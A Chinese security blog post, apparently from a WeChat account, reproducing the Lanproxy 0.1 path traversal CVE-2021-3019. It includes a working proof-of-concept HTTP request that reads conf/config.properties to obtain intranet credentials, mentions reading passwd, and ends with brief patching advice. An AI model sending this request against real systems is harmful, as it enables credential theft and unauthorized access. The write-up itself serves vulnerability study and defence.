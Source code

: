 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/a6VxH5-ufRVb-YbM5dOjnA)

![图片](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdqzcpBa6HYaBNYMiaEic0p7aV9o9jMDVbib84wgQZKWGTboHtNGXSvdhXQHGMkM6rx7GDPNTcRatEvQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

Lanproxy 路径遍历漏洞 (CVE-2021-3019)

  

* * *

一、漏洞简介

  

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

  

  

二、影响版本

  

lanproxy 0.1

  

三、漏洞复现

  

环境安装移步：

https://www.jianshu.com/p/6482ac354d34

```
`Poc:``/../conf/config.properties`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`GET /../conf/config.properties HTTP/1.1``Host: 127.0.0.1:8080``Upgrade-Insecure-Requests: 1``User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.52``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9``Accept-Encoding: gzip, deflate``Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6``Connection: close`
```

读取passwd  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

curl访问也行  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

四、安全建议  

升级版本，和防火墙做相关路径../跳跃限制。  

  

参考：

https://mp.weixin.qq.com/s/t8Nn3Nb4-cXh-2IfCA6mzw

https://www.cnblogs.com/limanman233/p/14239071.html

  

  

免责声明：本站提供安全工具、程序(方法)可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

  

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF主页：https://www.freebuf.com/author/thelostworld?type=article

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

欢迎添加本公众号作者微信交流，添加时备注一下“公众号”  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)